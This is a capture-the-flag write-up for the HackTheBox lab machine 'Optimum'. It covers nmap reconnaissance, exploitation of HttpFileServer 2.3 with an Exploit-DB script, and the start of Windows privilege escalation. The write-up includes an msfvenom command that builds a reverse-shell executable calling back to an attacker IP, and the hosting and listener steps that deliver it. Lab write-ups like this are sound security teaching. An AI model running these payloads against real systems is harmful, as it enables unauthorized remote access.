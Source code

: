 # Box: Optimum
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p- 10.129.111.57```

```
Nmap scan report for 10.129.111.57
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.015 days (since Sun Sep 17 16:46:43 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.31 ms 10.10.14.1
2   197.47 ms 10.129.111.57

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 17:07:49 2023 -- 1 IP address (1 host up) scanned in 778.27 seconds
```
From the above scan, we have only 1 open port and that's the port that runs the http service. This means our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf65020f-9ec8-4168-8321-c1fbb958b182)

This webpage is being hosted by ```HttpFileServer```. 

I think there's an exploit for this version of ```HttpFileServer```, well lets check

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe5acce-0ed1-4c83-91a3-eed36f756e5f)

Well there is😅. Lets exploit right away



# Exploitation

Well, I found this great exploit, you can download it [here](https://www.exploit-db.com/exploits/39161)



So, we'll set the ```LHOST``` to our tun0 ip, we'll also set the ```LPORT``` to the port we plan on listening on

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/de36cb6b-4ff8-4fc4-a752-ca27abd72924)

Save the script.

As per the instruction in the script, we were told to host a ```nc.exe``` file, well I generated the ```.exe``` file using msfvenom

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/optimum]                                                                                                                                             
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe                                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: nc.exe
```
Ensure you have your netcat listener ready before running the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35697632-7b3e-4ef6-a9f3-c6e3b673af51)

Running the script requires the target's ip and port

command:```python2 39161.py 10.129.58.117 80```

Alongside running this script, we'll host the ```nc.exe``` file

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b672fd6-0647-4542-85b7-ea610ab8a276)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f9625a2-cadc-4c0d-aa9f-c5b27dddfd01)

We didn't spawn a shell🥲, running the script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b69eaaf-5c0c-43dd-a51f-967ee0e70029)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae181f7e-1f08-435b-be9d-878565aa2d11)

We got a user shell🙂. Lets go ahead and escalate our privileges.



# Privilege Escalation

Lets run the  windows exploit suggester, you can get it [here](https://github.com/bitsadmin/wesng)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4262d643-84bb-41aa-a462-f30ab610a048)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/715e4a57-6fb2-494f-b118-b4b68849886d)

First lets update the database,

command:```python3 wes.py --update```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/66d7d16f-b1f9-432d-a0f0-a6b7f4d49730)

Done.

Lets go back to the shell we got earlier and run the ```systeminfo``` command, save the output in a file say ```systeminfo.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c735b9d0-4fbf-42bb-9a4b-f888eac61e3f)

Now, to run the script

command:```python3 wes.py path/to/systeminfo.txt```





















